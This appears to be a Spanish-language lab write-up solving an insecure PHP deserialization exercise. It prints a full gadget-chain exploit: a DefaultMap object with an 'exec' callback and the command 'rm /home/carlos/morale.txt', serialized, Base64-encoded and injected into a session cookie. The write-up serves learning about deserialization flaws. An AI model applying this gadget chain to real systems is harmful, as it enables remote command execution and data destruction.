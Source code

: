 Creamos manualmente un objeto **CustomTemplate** que contiene la cadena de gadgets necesaria. En este objeto, el atributo ‘**desc**‘ contiene una instancia de **DefaultMap** cuyo **callback** es la función **exec**. Al deserializarlo, ‘**exec()**‘ se invocará con el valor de ‘**default_desc_type**‘, que contiene nuestro comando malicioso.

Codificamos el objeto en Base64 y lo URL-encodeamos, luego lo inyectamos en la cookie de sesión. Al procesarse, se ejecuta el comando, lo que elimina el archivo ‘**morale.txt**‘ del directorio de Carlos y resuelve el laboratorio.

Solucion
![Pasted image 20250827015606.png](imagenes/Pasted image 20250827015606.png)
asi que modificamos el codigo
(<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    public function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$obj = new CustomTemplate();
$obj->desc = new DefaultMap("exec");
$obj->default_desc_type = "rm /home/carlos/morale.txt";

echo serialize($obj);
?>)
Ambos códigos comparten la misma estructura de clases (`CustomTemplate`, `Product`, `Description`, `DefaultMap`), pero tienen diferencias **críticas** en cuanto a seguridad, visibilidad y comportamiento al serializar. Vamos a desglosarlo:

🧩 Comparación técnica entre los dos códigos

![Pasted image 20250827021726.png](imagenes/Pasted image 20250827021726.png)

🔥 ¿Por qué el segundo código es peligroso?

En el segundo código, se hace esto:

$obj->desc = new DefaultMap("exec"); $obj->default_desc_type = "rm /home/carlos/morale.txt";

Y luego se serializa el objeto:

echo serialize($obj);

Cuando este objeto se deserializa, se ejecuta:

$this->product = new Product($this->default_desc_type, $this->desc);

Lo que se traduce en:

$this->desc = $desc->$default_desc_type;

Y como `$desc` es un `DefaultMap`, se invoca:

call_user_func("exec", "rm /home/carlos/morale.txt");

💣 **Resultado**: Se ejecuta un comando del sistema que borra un archivo.

🛡️ Conclusión

- El **primer código** es seguro y bien encapsulado. No permite manipulación externa de propiedades sensibles.
- El **segundo código** es vulnerable a **deserialización insegura**, lo que puede permitir ejecución de comandos arbitrarios si el objeto es manipulado antes de serializar.
ejecutamos
![Pasted image 20250827021815.png](imagenes/Pasted image 20250827021815.png)
asi que esto hay que representarlo en base64
![Pasted image 20250827022115.png](imagenes/Pasted image 20250827022115.png)
copiamos la cookie y pegamos
![Pasted image 20250827022202.png](imagenes/Pasted image 20250827022202.png)
